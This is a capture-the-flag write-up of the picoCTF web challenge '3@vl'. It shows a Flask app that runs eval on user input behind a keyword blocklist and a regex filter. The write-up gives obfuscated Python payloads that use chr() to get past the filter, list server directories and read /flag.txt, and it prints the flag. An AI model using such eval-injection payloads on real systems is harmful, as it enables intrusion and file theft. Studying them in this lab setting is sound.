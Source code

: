 # 3@vl — Pico Gym

> **Room / Challenge:** 3@vl (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** 3@vl (web)
- **Link**: `https://play.picoctf.org/practice/challenge/484?category=1&page=2`
- **Difficulty:** `Medium`
- **Date:** `22-10-2025`

---

## Goal

We have to get the flag by bypassing `eval` function.

## My Solution

Based on the description we know that we have to bypass the `eval` and searching online there are a lots of payloads and examples of how we can exploit this. Furthermore, `View page source` and we can see the comment in HTML:

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

So we know that it blocks various common commands that we use to read the flag and there is a regex preventing us from writing suspicious payloads, so first try our first payload to view directories in the server:

```
getattr(__import__(''.join([chr(111),chr(115)])),'listdir')()
```

> This payload works (bypass the regex and the blocking) because we doesn't use `os` directly we use `chr(111) -> o` and `chr(115) -> s` and then the command that will be executed is `getattr(__import__('os'), 'listdir')`

The result is:

```
Result: ['app.py', 'static', 'templates']
```

Found `app.py` the flag may appear in the source code of the server so I open the `app.py` to see its content:

Result:

```
Result: from flask import Flask, request, render_template_string, render_template import re app = Flask(__name__) # Define blocklist keywords and regex for file paths BLOCKLIST_KEYWORDS = ['os', 'eval', 'exec', 'bind', 'connect', 'python','python3', 'socket', 'ls', 'cat', 'shell', 'bind'] FILE_PATH_REGEX = r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.' @app.route('/') def index(): return render_template('index.html/') @app.route('/execute', methods=['POST']) def execute(): code = request.form['code'] # Check for blocklist keywords in submitted code for keyword in BLOCKLIST_KEYWORDS: if keyword in code: return render_template('error.html', keyword=keyword) # Check for file path using regex if re.search(FILE_PATH_REGEX, code): return render_template('error.html') try: # Execute the Python code if no blocklist keyword or file path found result = eval(code) except Exception as e: result = f"Error: {str(e)}" return render_template('result.html', result=result) if __name__ == '__main__': app.run(debug=True, host="0.0.0.0", port=5000)
```

Then I tried to list dir in `static` and `templates` but still doesn't find the flag file. Therefore, I tried to list directories in `/` for further investigation:

```
getattr(__import__(''.join(map(chr,[111,115]))),'listdir')(chr(47))
```

![Guide image](./screenshots/1.png)

Oh I found the `flag.txt` file, now read the file and capture the flag:

```
getattr(__import__(''.join(map(chr,[98,117,105,108,116,105,110,115]))),'open')(''.join(map(chr,[47,102,108,97,103,46,116,120,116]))).read()
```

![Guide image](./screenshots/2.png)

Flag: `picoCTF{D0nt_Use_Unsecure_f@nctions5e20166b}`

